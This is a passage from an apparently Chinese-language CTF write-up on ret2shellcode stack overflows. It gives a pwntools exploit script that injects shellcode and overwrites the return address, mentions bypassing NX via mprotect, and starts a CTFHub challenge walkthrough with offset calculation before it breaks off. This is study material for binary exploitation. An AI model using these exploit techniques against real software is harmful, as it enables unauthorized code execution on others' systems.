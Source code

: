 |   |   |
|---|---|
|1  <br>2  <br>3  <br>4  <br>5  <br>6|```<br>from pwn import *p = process('./ret2shellcode')shellcode = asm(shellcraft.sh())# shellcraft.sh()是pwntools自带的shellcode,可以print出来看看长什么样buf2_addr = 0x804a080# buf2就是可执行shellcode的地址p.sendline(shellcode.ljust(112,'a') + p32(buf2_addr))# 这段代码就是要将shellcode不足112长度的地方用a来填充,这样就能保证后面的返回地址覆盖正确。(ljust是左对齐填充字节)p.interactive()<br>```|

[![](https://www.onctf.com/images/image-20210720093945335.png)](https://www.onctf.com/images/image-20210720093945335.png)

**回顾一下其实核心就是将shellcode写入到这块可执行的内存空间.bss段当中，然后通过不断填充字符，溢出到ebp，然后向栈里填充这段内存空间的地址，即可使得程序执行构造好的shellcode**

现在介绍一下如果开启了NX保护改怎么办？

绕过NX的条件是mprotect函数存在或者mmap存在

如果有mprotect函数，由于是静态链接，可以使用mprotect来改变 bss 段的权限，然后执行 shellcode

具体参考下面两篇文章，我有空再总结

[文章1](https://blog.wh98.me/2019/05/29/%E8%8D%92%E5%BA%9F%E5%B7%B2%E4%B9%85%E7%9A%84pwn%E5%A4%8D%E4%B9%A0%E6%80%BB%E7%BB%93/) [文章2](https://blog.csdn.net/qq_45691294/article/details/111387593)

### [](https://www.onctf.com/posts/cd763be3.html#2%E3%80%81ctfhub%E9%A2%98%E7%9B%AE "2、ctfhub题目")2、ctfhub题目[](https://www.onctf.com/posts/cd763be3.html#2%E3%80%81ctfhub%E9%A2%98%E7%9B%AE)

这里以ctfhub 里面pwn技能树——栈溢出——ret2shellcode 这道题为例

[![](https://www.onctf.com/images/image-20210719104741403.png)](https://www.onctf.com/images/image-20210719104741403.png)

看到并没有开启NX所以可以通过栈溢出执行shellcode

[![](https://www.onctf.com/images/image-20210719101950116.png)](https://www.onctf.com/images/image-20210719101950116.png)

这是main函数，这里有个read函数，

读入buf，读了0x400但是buf只有0x10，那就是栈溢出，算一下偏移就是1*16+8=24

gdb算出来也一样

[![](https://www.onctf.com/images/image-20210719111211318.png)](https://www.onctf.com/images/image-20210719111211318.png)

但是我们发现这题没有给我们后门，即找不到/bin/sh

[![](https://www.onctf.com/images/image-20210719111312674.png)](https://www.onctf.com/images/image-20210719111312674.png)

那么我们就需要执行shellcode来获取shell

首先是shellcode的生成

一种方法是像第一题一样用pwntools生成，但是这题用pwntools生成的shellcode无效

|   |   |
|---|---|
|1|```<br>shellcode=asm(shellcraft.sh())<br>```|
